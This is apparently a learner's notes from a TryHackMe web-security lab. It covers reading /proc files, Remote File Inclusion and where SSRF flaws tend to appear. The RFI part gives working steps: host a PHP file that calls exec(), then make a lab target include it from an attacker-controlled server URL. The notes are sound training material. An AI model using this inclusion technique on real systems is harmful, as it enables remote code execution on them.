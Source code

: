 
`/proc/version`
Since every process has a file in the proc directory, you can retrieve lots of information through this technique. Experiment with the following filenames from the /proc directory:

- cpuinfo
- devices
- locks
- meminfo
- misc
- modules
- uptime
# Remote File Inclusion

host a web server using
`python -m http.server 9000`
create a file in the same directory containing:
```php
<?php
print exec('hostname');
?>
```
from the target URL enter 
`http://10.10.192.101/playground.php?file=http://10.4.3.201:9000/host.txt
This will execute the commands stored in hosts.txt

# SSRF

Potential SSRF vulnerabilities can be spotted in web applications in many different ways. Here is an example of four common places to look:

**When a full URL is used in a parameter in the address bar:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/956e1914b116cbc9e564e3bb3d9ab50a.png) 

**A hidden field in a form:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/237696fc8e405d25d4fc7bbcc67919f0.png)  

**A partial URL such as just the hostname:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/f3c387849e91a4f15a7b59ff7324be75.png)

**Or perhaps only the path of the URL:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3fd583950617f7a3713a107fcb4cfa49.png)



---

# XSS 
